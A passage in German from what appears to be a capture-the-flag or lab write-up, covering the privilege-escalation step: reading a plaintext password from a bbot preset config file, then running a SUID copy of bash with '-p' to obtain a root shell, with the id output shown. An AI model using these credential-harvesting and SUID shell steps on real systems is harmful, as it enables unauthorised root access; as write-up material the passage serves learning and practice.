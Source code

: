 ## 6. Privilege Escalation → root

Wir suchen lokal nach Konfigurationsdateien, Umgebungsvariablen und SUID‑Binaries.

Zuerst entdecken wir ein Passwort in der Datei `bbot_preset.yml` (Zeile 10).

```bash
cat /opt/bbot/bbot_preset.yml
```

→ Enthält Klartext‑Passwort.

`su graphasm` klappt nicht – aber Bash mit SUID:

```bash
/tmp/bash -p
```

Jetzt sind wir root:

```bash
id
uid=0(root) gid=0(root)
```

![root shell](Screenshot_2025-05-05_15_50_40.png)

---